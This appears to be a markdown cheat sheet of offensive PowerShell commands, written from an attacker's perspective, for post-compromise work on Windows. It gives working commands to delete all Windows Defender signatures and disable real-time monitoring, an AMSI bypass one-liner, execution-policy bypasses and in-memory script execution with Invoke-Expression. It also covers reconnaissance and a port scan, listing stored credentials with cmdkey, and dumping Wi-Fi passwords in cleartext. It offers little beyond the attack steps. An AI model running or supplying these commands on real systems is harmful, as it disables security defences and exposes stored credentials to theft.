

## 1. Bypassing Windows Defender
Windows Defender is going to raise the first alarm. Disabling it is not an
option. </br>
A PowerShell script can <b>delete all signatures</b> in Defender making it
impossible for Defender to compare inbound malicious entities and raise the
alerts.
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```

---
## 2. system and network information
This script retrieves all properties of the operating system & network interface configurations
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
Get-NetIPConfiguration
```


---
## 3. List all the processes running on the system
This script retrieves running processes and sorts them by CPU usage in descending order.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```

---
## 4. The attacker might want to scan for open ports
This script first retrieves all active TCP connections, showing their state, local address, port, and owning process.
It then will scan 1 to 1024 open ports to check for vulnerabilities that the attacker can exploit.
```powershell
Get-NetTCPConnection | Select-Object -Property State, LocalAddress, LocalPort, OwningProcess

1..1024 | ForEach-Object {
   $sock = New-Object System.Net.Sockets.TcpClient
   $async = $sock.BeginConnect('localhost', $_, $null, $null)
   $wait = $async.AsyncWaitHandle.WaitOne(100, $false)
   if($sock.Connected) {
       Write-Host "$_"
   }
   $sock.Close()
}
```
## 5.  Bypassing AMSI (Antimalware Scan Interface) to execute malicious scripts
The attacker might want to evade built-in PowerShell defenses before running scripts using the below command:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```


---
## 6. Bypassing execution policy to run unsigned scripts
What is [PowerShell Gallery](https://www.powershellgallery.com/)? </br>
The following command temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned scripts.
```powershell
Set-ExecutionPolicy Bypass -Scope Process; .\script.ps1
```
---
## 7. Bypass Execution Policy Temporarily
The command temporarily changes the script execution policy to allow the
running of unauthorized scripts, then reverts it back to its original state.
```powershell
$policy = Get-ExecutionPolicy;
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. Execute PowerShell Script from Memory
The attacker might want to run the entire PS script in memory without writing to the hard drive.
```powershell
# Read the content of the script from the file in memory
$code = [System.IO.File]::ReadAllText('C:\temp\script1.ps1')
# Execute the PowerShell script in memory
Invoke-Expression $code
```
---
## 9. Retrieving Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey /list
```

---
## 10. Extract Wi-Fi Profile Names and Passwords
This script extracts Wi-Fi profile names and passwords stored on the computer.
```powershell
netsh wlan show profiles |
Select-String -Pattern 'All User Profile' |
ForEach-Object {
   $profileName = ($_ -replace 'All User Profile\s*:\s*','').Trim()
   netsh wlan show profile name="$profileName" key=clear
}
```


---

## 11. Bonus for Professionals
Watch an advanced attack demonstrated by a pro hacker:
[Watch the video here](https://youtu.be/qehMT4ZXEWo)


---


